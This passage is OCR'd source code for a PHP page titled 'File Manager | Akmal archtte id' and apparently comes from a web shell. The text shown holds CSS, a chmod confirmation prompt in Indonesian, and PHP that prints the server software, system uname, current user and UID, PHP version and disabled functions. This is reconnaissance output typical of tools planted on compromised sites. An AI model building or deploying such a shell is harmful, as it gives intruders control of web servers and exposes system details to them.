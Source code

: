             justify-content: space-between;

        }

        .file-actions, .folder-actions {

            display: flex;

            gap: 5px;

        }

        .file-info, .folder-info {

            flex: 1;

            display: flex;

            align-items: center;

        }

        .file-info span, .folder-info span {

            margin-right: 10px;

        }

    </style>

    <script>

        function confirmChmod(form) {

            if (confirm('Apakah Anda yakin ingin mengubah izin file ini?')) {

                form.submit();

            }

        }

    </script>

</head>

<body>

<div class="container">

    <h1 class="my-4">File Manager | Akmal archtte id</h1>

    <?php

    echo 'Server: ' . $_SERVER['SERVER_SOFTWARE'] . '<br>';

    echo 'System: ' . php_uname() . '<br>';

    echo 'User: ' . get_current_user() . ' (' . getmyuid() . ')<br>';

    echo 'PHP Version: ' . phpversion() . '<br>';

    echo 'Disable Function: ' . ini_get("disable_functions") . '<br>';

    echo 'Directory: ';

